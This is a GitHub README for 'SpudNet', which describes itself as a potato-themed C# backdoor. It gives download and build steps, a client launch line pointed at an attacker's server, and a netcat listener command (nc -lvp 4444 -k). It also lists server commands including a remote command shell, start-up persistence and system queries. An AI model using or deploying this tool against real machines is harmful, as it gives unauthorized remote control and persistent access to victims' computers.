 # SpudNet
---
## Description
A Potato-themed backdoor developed in C#. 

![SpudNet](screenshots/spudnet.png)

## Requirements
- .NET Framework ≥ 4.7
- A Windows client running SpudBot.exe.
- A server listening for incomming connections. 

## Download
You can download the latest release of SpudBot.exe from https://github.com/malwaredetective/spudnet/releases/tag/v1.0.0. 

## Building from Source Code
- Clone a copy of the Github repository.
```
git clone https://github.com/malwaredetective/spudnet.git
```
- Open **SpudBot.Sln** within Visual Studio.
- Build the solution within Visual Studio. 

## Usage
On the client, launch **SpudBot.exe** with Command-line arguments pointing to the server you would like to connect too. 
```
SpudBot.exe "Server" "Port"
```
On the server, setup a listener to watch for inbound connections.
```
nc -lvp 4444 -k
```
The SpudNet framework contains built-in commands for the server to help *Spudify* the client.  

| Command | Description |
| --- | --- |
| help | Print out a list of Commands. |
| calc | Count Potatoes with Calculator. |
| desktop | Spudify the Clients Desktop Background. |
| download | Download LilSpud's favorite Poem. | 
| fact | Send LilSpud a random Spudfact. |
| search | Find Potatoes Near LilSpud. |
| shell | Establish a Command Shell with LilSpud. |
| startup | Launch Spudnet on start-up. |
| status | Report the Status of LilSpud. |
| whoami | Query System Information |
| exit | Terminate the Current Session. |

For additional information, review the command reference guide on the Wiki: https://github.com/malwaredetective/spudnet/wiki.

---
